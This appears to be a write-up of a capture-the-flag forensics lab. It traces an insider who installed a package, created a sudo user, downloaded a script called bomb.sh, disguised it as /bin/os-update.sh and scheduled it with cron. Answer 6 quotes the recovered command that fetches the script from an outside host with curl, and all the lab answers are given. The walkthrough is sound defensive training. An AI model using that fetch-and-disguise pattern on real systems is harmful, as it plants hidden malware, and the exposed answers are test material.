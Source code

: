 # Disgruntled
---

## 1. 📦 What command was used to install a package using elevated privileges?

**Method**:  
We checked the sudo history in the `auth.log` file:

```bash
cd /var/log
cat auth.log | grep install
```
Answer:
/usr/bin/apt install dokuwiki

2. 📁 What was the present working directory (PWD) when the previous command was run?
Method:
From the same auth.log entry, we observed the user's current directory at the time of command execution.

Answer:
/home/cybert

3. 👤 Which user was created after the package was installed?
Method:
We searched for adduser events in auth.log:

cat auth.log | grep adduser
Answer: it-admin

4. 🛠️ A user was later given sudo privileges. When was the sudoers file updated?
Method:
Manual inspection of auth.log for entries where the sudoers file was modified.

Answer: Dec 28 06:27:34

5. 📜 A script file was opened using the vi text editor. What is the name of this file?
Method:
By browsing through auth.log, we located the command used to open a suspicious file with vi.

Answer: bomb.sh

6. 🌐 What is the command used that created the file bomb.sh?
Method:
Checked the .bash_history file in the it-admin user's home directory:

cat /home/it-admin/.bash_history
Answer: curl 10.10.158.38:8080/bomb.sh --output bomb.sh

7. 🚚 The file was renamed and moved. What is the full new path of this file?
Method:
We examined .viminfo to view vi editor history and observed the new path of the renamed script.

Answer: /bin/os-update.sh

8. 🕒 When was the file from the previous question last modified?
Method:
Used ls -l or stat to check the modification time of the file:

stat /bin/os-update.sh
Answer: Dec 28 06:29

9. 📄 What file will be created when os-update.sh executes?
Method:
Opened the script in a text editor and reviewed its contents:

nano /bin/os-update.sh
Answer: goodbye.txt

10. ⏰ At what time will the malicious script be triggered?
Method:
Inspected the crontab to see scheduled tasks:

crontab -l
Answer: 08:00 AM
